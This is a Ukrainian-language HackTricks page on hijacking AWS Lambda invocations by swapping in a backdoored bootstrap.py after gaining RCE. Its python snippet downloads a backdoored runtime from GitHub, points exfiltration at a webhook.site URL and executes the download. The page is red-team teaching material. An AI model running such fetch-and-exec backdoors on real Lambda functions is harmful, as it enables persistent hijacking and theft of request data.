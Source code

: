 # AWS - Вкрасти запити Lambda

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>

## Потік Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** - це процес поза контейнером, який **надсилає** **запити** до процесу **init**.
2. Процес init слухає порт **9001**, викриваючи деякі цікаві кінцеві точки:
* **`/2018-06-01/runtime/invocation/next`** – отримати наступну подію запиту
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – повернути відповідь обробника для запиту
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – повернути помилку виконання
3. **bootstrap.py** має цикл отримання запитів від процесу init та викликає код користувача для їх обробки (**`/next`**).
4. Нарешті, **bootstrap.py** надсилає відповідь до init.

Зверніть увагу, що bootstrap завантажує код користувача як модуль, тому будь-яке виконання коду, виконане кодом користувача, фактично відбувається в цьому процесі.

## Вкрадення запитів Lambda

Метою цього нападу є змусити код користувача виконати зловмисний процес **`bootstrap.py`** всередині процесу **`bootstrap.py`**, який обробляє вразливий запит. Таким чином, **зловмисний процес bootstrap** почне **спілкуватися з процесом init** для обробки запитів, тоді як **легітимний** bootstrap **застрягне** на виконанні зловмисного, тому він не буде запитувати про запити до процесу init.&#x20;

Це просте завдання для досягнення, оскільки код користувача виконується легітим **`bootstrap.py`** процесом. Таким чином, зловмисник може:

* **Надіслати фальшивий результат поточного запиту до процесу init**, щоб init вважав, що процес bootstrap чекає на більше запитів.
* Запит повинен бути надісланий до **`/${invoke-id}/response`**&#x20;
* ID запиту можна отримати зі стеку легітимного **`bootstrap.py`** процесу, використовуючи модуль python [**inspect**](https://docs.python.org/3/library/inspect.html) (як [запропоновано тут](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) або просто запросивши його знову до **`/2018-06-01/runtime/invocation/next`** (як [запропоновано тут](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Виконати зловмисний **`boostrap.py`**, який буде обробляти наступні запити
* З метою недосяжності можна надіслати параметри викликів lambda до керованого атакуючого C2, а потім обробляти запити як зазвичай.
* Для цього нападу достатньо отримати оригінальний код **`bootstrap.py`** з системи або [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), додати зловмисний код та запустити його з поточного виклику lambda.

### Кроки нападу

1. Знайдіть уразливість **RCE**.
2. Створіть **зловмисний** **bootstrap** (наприклад, [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Виконайте** зловмисний bootstrap.

Ви можете легко виконати ці дії, запустивши:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Для отримання додаткової інформації перевірте [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Посилання

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану в HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
